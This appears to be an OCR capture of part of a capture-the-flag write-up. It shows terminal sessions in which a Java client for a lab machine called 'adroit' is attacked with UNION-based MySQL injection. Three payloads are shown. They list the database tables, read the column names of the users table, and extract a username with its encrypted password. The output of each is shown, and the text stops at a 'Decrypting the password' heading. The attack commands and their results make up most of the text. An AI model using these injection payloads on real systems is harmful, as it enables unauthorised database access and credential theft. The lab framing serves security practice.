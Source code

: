 ┌──(alienum㉿kali)-[~/Desktop]
└─$ java -jar adroitclient.jar                                  
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Enter the username : 
zeus
Enter the password : 
god.thunder.olympus
Options [ post | get ] : 
get
Enter the phrase identifier : 
1 or 1=1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='adroit'--

GIVE US : haxor ideas users

## MySQL sql injection reading columns names from the users table_schema

┌──(alienum㉿kali)-[~/Desktop]
└─$ java -jar adroitclient.jar
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Enter the username : 
zeus
Enter the password : 
god.thunder.olympus
Options [ post | get ] : 
get
Enter the phrase identifier : 
1 or 1=1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'--

GIVE US : haxor id password username CURRENT_CONNECTIONS TOTAL_CONNECTIONS USER

## MySQL sql injection reading username and password from table users

┌──(alienum㉿kali)-[~/Desktop]
└─$ java -jar adroitclient.jar
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Enter the username : 
zeus
Enter the password : 
god.thunder.olympus
Options [ post | get ] : 
get
Enter the phrase identifier : 
1 or 1=1 UNION ALL SELECT NULL,concat(0x28,username,0x3a,password,0x29) FROM users--

GIVE US : haxor (writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=)

## Decrypting the password
username : writer
encrypted password : l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=
